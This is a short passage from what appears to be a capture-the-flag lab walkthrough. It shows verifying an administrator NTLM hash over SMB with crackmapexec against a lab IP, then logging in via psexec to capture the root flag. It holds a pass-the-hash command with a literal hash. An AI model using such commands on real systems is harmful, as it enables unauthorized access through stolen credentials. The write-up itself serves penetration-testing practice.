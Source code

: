 8. Record them and using crackmapexec to verify the credential 

```
crackmapexec smb 10.129.95.210 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

![](./IMG/58.png)

9. Using psexec to login with administrator 

![](./IMG/59.png)

> Get root flag 

![](./IMG/60.png)
